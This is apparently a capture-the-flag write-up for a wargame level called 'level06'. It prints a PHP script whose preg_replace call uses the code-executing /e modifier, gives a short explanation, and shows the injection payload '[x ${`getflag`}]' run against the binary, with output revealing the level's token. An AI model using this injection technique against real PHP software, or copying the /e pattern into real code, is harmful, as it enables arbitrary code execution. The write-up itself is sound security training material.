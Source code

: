 # Solution

```bash
$>cat level06.php
```

```php
#!/usr/bin/php
<?php
function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
$r = x($argv[1], $argv[2]); print $r;
?>
```

> preg_replace `/e` let execute code. He execute when mathing this patern [x (.*)].

```bash
$>echo '[x ${`getflag`}]' > /tmp/ok
$>./level06 /tmp/ok non
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
in /home/user/level06/level06.php(4) : regexp code on line 1
```
